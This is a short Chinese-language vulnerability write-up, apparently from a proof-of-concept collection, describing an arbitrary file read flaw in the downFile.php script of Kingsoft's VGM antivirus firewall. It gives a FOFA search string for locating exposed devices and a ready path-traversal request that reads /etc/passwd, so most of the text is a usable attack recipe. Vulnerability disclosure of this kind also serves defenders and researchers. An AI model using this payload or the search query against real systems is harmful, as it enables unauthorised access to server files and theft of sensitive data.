 # 金山 VGM防毒墙 downFile.php 任意文件读取漏洞

## 漏洞描述

金山 VGM防毒墙 downFile.php文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
金山 VGM防毒墙
```

## FOFA

```
"金山VGM"
```

## 漏洞复现

登录页面

![image-20230314090419140](images/image-20230314090419140.png)

验证POC

```
/downFile.php?filename=../../../../etc/passwd
```

![image-20230314090430563](images/image-20230314090430563.png)